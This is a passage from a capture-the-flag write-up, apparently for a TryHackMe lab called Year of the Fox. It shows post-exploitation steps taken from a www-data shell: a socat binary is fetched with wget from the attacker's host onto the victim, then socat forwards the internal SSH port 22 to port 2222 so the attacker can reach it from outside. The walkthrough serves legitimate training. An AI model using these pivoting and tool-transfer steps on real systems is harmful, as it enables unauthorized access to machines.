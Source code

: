 ```bash
#ListenAddress ::
...
...
#	PermitTTY no
#	ForceCommand cvs server
AllowUsers fox
www-data@year-of-the-fox:/tmp$
```
{: .nolineno}
{: .nolineno}

I noted that the victim machine is actually runing the port 22 internally and the ssh login is Allowed for fox user so lets now access this port 22 externally and for that I need to perform port forwording with `port2port` and I will be using the simple tool called <mark style="background: #FF5582A6;">socat</mark> you can get the commands from [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#socat). that lets me interact this 22 port with other port on externally so lets do it .

Lets transfer the socat first like this →

```bash
www-data@year-of-the-fox:/tmp$ wget http://10.8.83.156/socat_x86
--2023-09-21 16:56:04--  http://10.8.83.156/socat_x86
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: 'socat_x86'

socat_x86           100%[===================>] 366.38K   328KB/s    in 1.1s    

2023-09-21 16:56:06 (328 KB/s) - 'socat_x86' saved [375176/375176]

www-data@year-of-the-fox:/tmp$ chmod +x *
www-data@year-of-the-fox:/tmp$
```
{: .nolineno}
{: .nolineno}

Now lets morph this port 22 to 2222 on victim machine so that we can access this 22 port externally through 2222 port it will be done like this ⤵️ 

```bash
www-data@year-of-the-fox:/tmp$ ./socat_x86 TCP-LISTEN:2222,reuseaddr,fork TCP:127.0.0.1:22 &
[1] 1021
www-data@year-of-the-fox:/tmp$
```
{: .nolineno}
{: .nolineno}

Now lets try to access the 2222 port from attackers machine like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/yotf]
└─$ ssh fox@10.10.167.224 -p 2222
The authenticity of host '[10.10.167.224]:2222 ([10.10.167.224]:2222)' cant be established.
ED25519 key fingerprint is SHA256:ytuC6e5+2EWnZLeockeugHFQMCmIRWlKFJR/MF8JPJo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.167.224]:2222' (ED25519) to the list of known hosts.
fox@10.10.167.224s password:
```
{: .nolineno}
{: .nolineno}
